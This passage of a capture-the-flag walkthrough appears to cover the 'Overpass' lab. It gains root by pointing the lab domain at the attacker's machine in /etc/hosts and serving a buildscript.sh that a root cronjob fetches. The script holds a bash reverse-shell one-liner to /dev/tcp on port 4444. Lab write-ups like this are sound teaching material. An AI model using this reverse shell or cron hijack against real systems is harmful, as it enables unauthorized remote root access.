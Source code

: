 > We need to change the IP address that `overpass.thm` resolves to, and make it our own IP address.
> To get our machine's IP address, we do `ifconfig`.

![](./screenshots/ifconfig.png)

> Therefore, our IP address is `10.18.5.150`.
> Changing the `/etc/hosts` file.

![](./screenshots/nano-1.png)

> Next, we need to create the path `/downloads/src` in our machine.

```
mkdir -p downloads/src
```

> Whats remaining is to create the `buildscript.sh` file.
> This file is going to contain a reverse shell script so that we get access to the target machine as root. This is the case since the cronjob is run as root.

> Inside `/downloads/src`, create a file called `buildscript.sh`.
```
nano buildscript.sh
```

> And inside it paste this code for the reverse shell.

```
#!/bin/bash
bash -i >& /dev/tcp/10.18.5.150/4444 0>&1
```
> Where the IP is the IP of our attacking machine, and 4444 is an open port.
> Make this shell executable.
